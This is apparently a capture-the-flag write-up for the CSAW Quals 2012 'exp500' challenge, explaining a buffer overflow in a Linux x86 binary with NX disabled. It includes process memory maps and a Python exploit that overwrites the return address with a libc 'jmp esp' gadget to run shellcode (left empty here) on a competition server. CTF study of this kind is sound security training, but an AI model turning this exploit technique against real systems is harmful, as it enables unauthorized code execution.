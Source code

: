 ```yaml
---
title: 'CSAW Quals 2012 &mdash; exp500'
layout: post
authors:
  - Alex Reece <awreece>
categories:
  - Pwn
ctf: CSAW Quals
year: 2012
---
```

## Overview

[challenge1][1] is an Linux x86 binary that has a buffer overflow. Using information disclosed from another problem, we can use libc gadget to jump to our shellcode.

<!--more-->

## Writeup

After reversing through the standard network / privilege dropping code, we find an interesting function `q_generate` that has a buffer overflow.  Here we take advantage of having a shell on the box (via exp400) to get some useful information: we get a copy of libc to search for gadgets and the base offset where libc is loaded.

```
$ cat /proc/self/maps
08048000-08053000 r-xp 00000000 08:01 786434     /bin/cat
08053000-08054000 r-xp 0000a000 08:01 786434     /bin/cat
08054000-08055000 rwxp 0000b000 08:01 786434     /bin/cat
08055000-08076000 rwxp 00000000 00:00 0          [heap]
b7e31000-b7e32000 rwxp 00000000 00:00 0
b7e32000-b7fd1000 r-xp 00000000 08:01 1572883    /lib/i386-linux-gnu/libc-2.15.so
b7fd1000-b7fd3000 r-xp 0019f000 08:01 1572883    /lib/i386-linux-gnu/libc-2.15.so
b7fd3000-b7fd4000 rwxp 001a1000 08:01 1572883    /lib/i386-linux-gnu/libc-2.15.so
b7fd4000-b7fd7000 rwxp 00000000 00:00 0
b7fdb000-b7fdd000 rwxp 00000000 00:00 0
b7fdd000-b7fde000 r-xp 00000000 00:00 0          [vdso]
b7fde000-b7ffe000 r-xp 00000000 08:01 1572880    /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r-xp 0001f000 08:01 1572880    /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rwxp 00020000 08:01 1572880    /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
```

We also observe that NX is disabled, so we use a `jmp esp` gadget from libc to jump to our shellcode.

```
#!/usr/bin/python
import struct
import socket
import telnetlib
import sys
import string

shellcode = ""

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# s.connect(('127.0.0.1', 12345))
s.connect(('128.238.66.213', 12345))
f = s.makefile('rw', bufsize=0)

libc_offset = 0xb7e32000

jmp_esp = 0x0014853F + libc_offset

first_part =  "D"*124
second_part = "A"*int(0x38)  + "BBBB" + struct.pack("I", jmp_esp) + shellcode

payload = first_part + second_part + "\n"

f.write(payload)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp500.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-5.46.51-PM.png